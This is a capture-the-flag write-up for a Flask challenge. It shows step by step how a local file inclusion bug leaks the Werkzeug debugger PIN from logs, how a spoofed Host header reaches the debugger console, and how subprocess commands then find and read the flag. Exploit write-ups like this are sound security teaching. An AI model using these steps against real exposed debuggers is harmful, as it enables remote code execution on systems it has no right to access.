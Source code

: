 ### **Mola7ada Revenge Write-Up**

## discription 

mo7adata was mid i beet you solve this one :) , Revenge baby ;)

## flag 
NHD{machakil_f_ta7mil}

## Write-up 

After obtaining the zip file, I noticed the following line in the Dockerfile:

```dockerfile
CMD flask run --host=0.0.0.0 > /app/logs/logs.txt 2>&1
```

This command redirects the Flask application's output to `/app/logs/logs.txt`. On the host machine, the logs are saved in `./logs/logs.txt`.

During my analysis, I discovered a vulnerability in the following endpoint:

```python
@auth.route('/get_profile_pic')
def file():
    filename = request.args.get('filename')
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'
```

This endpoint is vulnerable to **Local File Inclusion (LFI)**, which allows reading arbitrary files on the server. However, the flag file is randomized using the following command:

```dockerfile
RUN FLAG_NAME=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 12) && mv ./flag.txt "./${FLAG_NAME}_flag.txt"
```

This makes it difficult to guess the flag file's name directly.

---

### **Exploiting the LFI Vulnerability**

After some testing, I found that I could read the application logs using the LFI vulnerability:

```
http://192.168.11.113:5000/get_profile_pic?pic=./logs/logs.txt
```

The output revealed the following:

```
* Serving Flask app 'app.py' 
* Debug mode: on 
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead. 
* Running on all addresses (0.0.0.0) 
* Running on http://127.0.0.1:5000 
* Running on http://192.168.11.113:5000 
Press CTRL+C to quit 
* Restarting with stat 
* Debugger is active! 
* Debugger PIN: 630-138-255
```

The logs show that the Flask debugger is active, and the **Debugger PIN** is exposed. This is a critical finding because the debugger allows arbitrary code execution if accessed.

---

### **Accessing the Werkzeug Console**

I attempted to access the Werkzeug console at:

```
http://192.168.11.113:5000/console
```

However, I received the following error:

```
Bad Request
The browser (or proxy) sent a request that this server could not understand.
```

After two days of research and testing various attack vectors (including SSRF), I discovered that the `/console` endpoint is restricted to `localhost` and `127.0.0.1`. It is not accessible from external IP addresses.

---

### **Bypassing the Restriction**

To bypass this restriction, I modified the `Host` header in my HTTP request. By changing the `Host` from `192.168.11.113:5000` to `127.0.0.1`, I was able to access the Werkzeug console.

Here’s the modified request:

```
GET /console HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: __wzd7996cd05d8d38c9847ad=1737926290|efd2461c3eb9
Connection: keep-alive
```

This allowed me to access the Werkzeug console and execute arbitrary Python code.

---

### **Gaining Remote Code Execution (RCE)**

Using the Werkzeug console, I executed the following commands to enumerate the file system and retrieve the flag:

```python
>>> import subprocess
>>> print(subprocess.run("ls -la", shell=True, text=True, capture_output=True).stdout)
```

The output revealed the contents of the current directory, including the randomized flag file:

```
total 68
drwxr-xr-x 1 root root 4096 Jan 26 21:15 .
dr-xr-xr-x 1 root root 4096 Jan 26 21:15 ..
drwxrwxrwx 7 root root 4096 Jan 24 23:14 .git
drwxrwxrwx 3 root root 4096 Jan 24 23:14 .idea
drwxrwxrwx 5 root root 4096 Jan 24 23:14 .venv
-rw-rw-r-- 1 root root  733 Jan 26 04:04 08WrSq8rM2dL_flag.txt
-rw-rw-rw- 1 root root  346 Aug  9 23:09 Bloog.iml
-rw-rw-rw- 1 root root  787 Jan 26 21:15 Dockerfile
drwxrwxrwx 1 root root 4096 Jan 26 21:15 __pycache__
-rw-rw-rw- 1 root root  128 Jan 26 20:34 app.py
-rwxrwxrwx 1 root root  358 Jan 26 21:05 build.sh
drwxrwxrwx 1 root root 4096 Jan 26 20:20 instance
drwxrwxr-x 2 root root 4096 Jan 26 21:11 logs
drwxrwxrwx 4 root root 4096 Jan 24 23:14 migrations
-rw-rw-rw- 1 root root  101 Jan 25 23:58 requirements.txt
drwxrwxr-x 5 root root 4096 Jan 26 01:56 venv
drwxrwxrwx 1 root root 4096 Jan 24 23:14 website
```

Next, I read the contents of the flag file:

```python
>>> print(subprocess.run("cat 08WrSq8rM2dL_flag.txt", shell=True, text=True, capture_output=True).stdout)
```

The flag file contained the following message:

```
It's 5 AM, and this challenge has made me furious.
I spent all day trying to build a nice Werkzeug pin bypass challenge, 
but I found out that `/console` isn’t accessible from outside of localhost.

I tried so many things—one of them was an SSRF attempt to interact with the console and achieve RCE.

Honestly, this challenge feels mediocre; it could be solved in 5 minutes or even with ChatGPT.
Sorry for wasting your time, but if you’re curious about what I was trying to do, check out these resources :  
- https://werkzeug.palletsprojects.com/en/1.0.x/debug/       
- https://www.daehee.com/werkzeug-console-pin-exploit/    

Here is your flag:
NHD{machakil_f_ta7mil}
```

---

### **Note to the Developer: molzri3**

This is the first time I’ve encountered a way to bypass the Werkzeug console's IP restriction. I plan to report this issue to the Werkzeug maintainers for further investigation. I hope you enjoyed playing this challenge as much as I did!

**Edit**
i repport it and it wasnt a vulnurabilty and this was the answer :
IIRC the Host header check was added to prevent DNS rebinding attacks against a debugger running on localhost, not to restrict access to localhost when the debugger itself is exposed to an untrusted network (which NOBODY SHOULD DO as we very clearly document).

PS: Very cool idea to use an exposed werkzeug debugger as a CTF challenge! :)

---

### **References**

- [Werkzeug Debugger Documentation](https://werkzeug.palletsprojects.com/en/1.0.x/debug/)
- [Werkzeug Console PIN Exploit](https://www.daehee.com/werkzeug-console-pin-exploit/)
